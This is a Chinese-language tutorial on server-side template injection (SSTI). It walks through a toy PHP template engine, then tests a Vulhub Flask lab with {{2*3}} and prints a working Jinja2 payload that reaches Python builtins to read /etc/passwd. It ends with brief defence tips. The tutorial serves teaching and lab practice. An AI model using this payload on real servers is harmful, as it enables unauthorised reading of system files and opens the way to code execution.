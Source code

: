 # 模板注入SSTI简介 

##  何为模板引擎(SST)  

​    百度百科：模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，用于网站的模板引擎就会生成一个标准的HTML文档。  
​    个人理解就是：一个html页面中没有实际内容，但是有变量，访问这个页面时需要将这个变量转换成预期的内容，这时候就需要用到模板引擎。php(或者其他脚本语言)代码通过访问模板引擎，模板引擎通过正则匹配产生一个新的缓存的html页面，从而实现php和html代码的分离。
从网上找了个小例子帮助我们更好的理解SST的作用，大波code来袭：  

### tpl.func.php

```
<?php
    
    //两个参数 1，html 模板； 2，需要修改的参数
    function display($tplFile, $tplVars = null)
    {
        $tplFilePath = rtrim(TPL_PATH,'/') . '/' . $tplFile;
        if (!file_exists($tplFilePath)) {
            exit('模版文件不存在');
        }
        $html = compile($tplFilePath);
        $cacheFileName = parsePath($tplFile);
        if (!check_cache_dir(TPL_CACHE)) {
            exit('缓存目录不可写');
        }
        if (!file_put_contents($cacheFileName, $html)) {
            exit('缓存文件写入失败');
        }
        if (is_array($tplVars)) {
            extract($tplVars);
            include $cacheFileName;
        }
    }
    function check_cache_dir($path)
    {
        if(!file_exists($path) || !is_dir($path)) {
            return mkdir($path,0755,true);
        }
        if(!is_writeable($path) || !is_readable($path)) {
            return chmod($path,0755);
        }
        return true;
    }
    function parsePath($tplFile)
    {
        $path = rtrim(TPL_CACHE,'/').'/'.str_replace('.','_',$tplFile).'.php';
        return $path;
    }
    function compile($path)
    {
        $keys = [
        '{if %%}'              =>    '<?php if(\1): ?>',
        '{else}'               =>    '<?php else : ?>',
        '{else if %%}'         =>    '<?php elseif(\1) : ?>',
        '{elseif %%}'          =>    '<?php elseif(\1) : ?>',
        '{/if}'                =>    '<?php endif;?>',
        '{$%%}'                =>    '<?=$\1;?>',
        '{foreach %%} '        =>    '<?php foreach(\1) :?>',
        '{/foreach}'           =>    '<?php endforeach;?>',
        '{for %%}'             =>    '<?php for(\1):?>',
        '{/for}'               =>    '<?php endfor;?>',
        '{while %%}'           =>    '<?php while(\1):?>',
        '{/while}'             =>    '<?php endwhile;?>',
        '{continue}'           =>    '<?php continue;?>',
        '{break}'              =>    '<?php break;?>',
        '{$%% = $%%}'          =>    '<?php $\1 = $\2;?>',
        '{$%%++}'              =>    '<?php $\1++;?>',
        '{$%%--}'              =>    '<?php $\1--;?>',
        '{comment}'            =>    '<?php /* ',
        '{/comment}'           =>    '*/?>',
        '{/*}'                 =>    '<?php /* ',
        '{*/}'                 =>    '*?>',
        '{section}'            =>    '<?php ',
        '{/section}'           =>    '?>',
        '{include %%}'         =>    '<?php include \1;?>',
        ];
    
        $file = file_get_contents($path);
        foreach ($keys as $key => $val) {
            $pattern = '#'. str_replace('%%', '(.+)', preg_quote($key,'#')) .'#imsU';
            $replace = $val;
            if (stripos($pattern,'include')) {
                $file = preg_replace_callback($pattern, 'parseInclude', $file);
            } 
            else{
                $file = preg_replace($pattern, $replace, $file);
            }
        }
        return $file;
    }
    
    function parseInclude($data)
    {
        $path = str_replace(array('\'','"'),'',$data[1]);
        //data[1]就是-------footer.html
        $cacheFileName = parsePath($path);
        display($path);
        return '<?php include "'.$cacheFileName.'";?>';
    }
```



### config.php 



```
<?php
    define('TPL_CACHE','./cache/');
    define('TPL_PATH','./views/');
#### test.php   
    <?php
    include 'config.php';
    include 'tpl.func.php';
    
    $title = '圈子社区';
    $content = '圈子社区！圈子社区！';
    
    display('moban.html',compact('title','content','footercontent'));
```



### moban.html 



```
    <html>
    <head>
    <title>{$title}</title>
    </head>
    <body>
        {$content}
    <br />
    <hr />
    </body>
    </html>
```



![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041501879-62259431.png)

 

## 为什么要模板引擎  

　　如果在一个页面中php代码与html代码混合在一起，在很多时候都会造成不便，用模板引擎可以让php代码和html代码进行分离。

## 为什么SST是危险的？  

　　还是道哥的那句话，安全的本质是信任。SST信任了用户的输入，并且执行这些内容，包括执行本机函数。就像eval函数对传入的内容未加任何过滤一样。因此模板注入(SSTI)很容易导致远程代码执行（RCE）、信息泄露等漏洞。

# 实例演示  

本来准备找CTF题的，但是一直没找到，如果有师傅找到源码，望分享！  
这里就用vuhub的ssti测试一下  
访问页面是hello guest

 ![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041647726-588866920.png)

 

因为看过app.py的源码，所以直接在后面加参数?name=123,显示hello 123

![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041715724-2113643141.png)

 

说明这里的name我们是被信任的（当它什么都没过滤），猜测存在ssti。  
接着再输入一个表达式{{2*3}}

![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041735746-1200033321.png)

 

显示hello 6,验证了存在ssti。   
payload  
python3 ：读取文件 

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read() }}{% endif %}{% endfor %}
```

 

![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041806226-1425565022.png)

 

也可以用工具tplmap，挺好用  
https://github.com/epinna/tplmap  

 

# 如何防御SSTI？  


1.尽可能加载静态模板文件。

2.不要允许用户控制此类文件或其内容的路径。



# 参考

[https://xi4or0uji.github.io/2019/01/17/2019-1-15-flask%E4%B9%8Bssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/](https://xi4or0uji.github.io/2019/01/17/2019-1-15-flask%E4%B9%8Bssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/ )  
[https://blog.csdn.net/qq_40657585/article/details/83657220](https://blog.csdn.net/qq_40657585/article/details/83657220 ) 